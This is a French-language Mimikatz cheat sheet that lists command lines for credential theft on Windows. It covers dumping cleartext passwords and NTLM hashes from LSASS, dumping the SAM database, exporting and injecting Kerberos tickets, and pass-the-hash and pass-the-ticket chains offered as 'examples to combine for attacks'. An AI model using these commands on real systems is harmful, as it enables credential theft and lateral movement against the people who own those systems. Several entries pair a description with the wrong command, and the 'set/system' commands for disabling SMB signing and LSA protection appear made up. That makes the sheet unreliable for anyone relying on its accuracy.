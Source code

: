 # **Mimikatz Cheat Sheet**

## **Commandes de base**

### 1. **Lancer Mimikatz**
```
mimikatz.exe
```

### 2. **Passer en mode Administrateur**
```
privilege::debug
```

### 3. **Afficher les mots de passe en texte clair (LSA)**
```
sekurlsa::logonpasswords
```

### 4. **Récupérer les hashes NTLM**
```
sekurlsa::ntlm
```

### 5. **Extraire les tickets Kerberos (TGT)**
```
kerberos::list
```

### 6. **Exporter les tickets Kerberos**
```
kerberos::ptt <ticket.kirbi>
```

### 7. **Dump des identifiants d'un processus spécifique (pid)**
```
sekurlsa::logonpasswords /pid <pid>
```

---

##  *Commandes avancées*

### 1. **Injection d'un ticket Kerberos dans la mémoire**
```
kerberos::ptt <ticket.kirbi>
```

### 2. **Récupérer les mots de passe des comptes locaux**
```
lsadump::sam`
```

### 3. **Dump des credentials des sessions en cours**
```
sekurlsa::logonpasswords
```

### 4.  **Dump des hashes NTLM d'un SAM local**
```
lsadump::sam
```

### 5. **Écoute du trafic SMB pour récupérer des credentials**
```
mimikatz.exe -command "kerberos::tickets /export"
```

---

##  *Commandes pour escalade de privilèges*

### 1. **Pass-the-Hash (PTH)**

Utilise un hash NTLM pour accéder à une autre machine sans avoir besoin du mot de passe en clair.
```
mimikatz.exe "sekurlsa::pth /user:<username> /domain:<domain> /rc4:<NTLM_hash> /run:<command>"
```

### 2. **Pass-the-Ticket (PTT)**

Injecte un ticket Kerberos dans la session actuelle.
```
mimikatz.exe "kerberos::ptt <ticket.kirbi>"
```

---

## *Commandes de détection / désactivation*

### 1. **Désactiver la signature SMB**
```
set/system /smbsigdisable:yes
```

### 2. **Desactiver les protections LSA (Local Security Authority)**
```
set/system /lsasignaturedisable:yes
```

---

##  *Autres options utiles*

### 1. **Débugger les processus avec privilèges**
```
privilege::debug
```

### 2. **Vérifier les permissions du fichier LSA**
```
lsadump::lsa
```

### 3. **Exporter les identifiants du processus LSASS**
```
sekurlsa::logonpasswords
```

---

##  Exemples de commandes à combiner pour des attaques

1. **Obtenir un hash NTLM puis passer ce hash pour accéder à une autre machine**
```
sekurlsa::logonpasswords sekurlsa::pth /user:Administrator /domain:DOMAIN /rc4:<NTLM_hash> /run:cmd
```

2. **Extraire et injecter un ticket Kerberos**
  ```
kerberos::list kerberos::ptt <ticket.kirbi>
```  

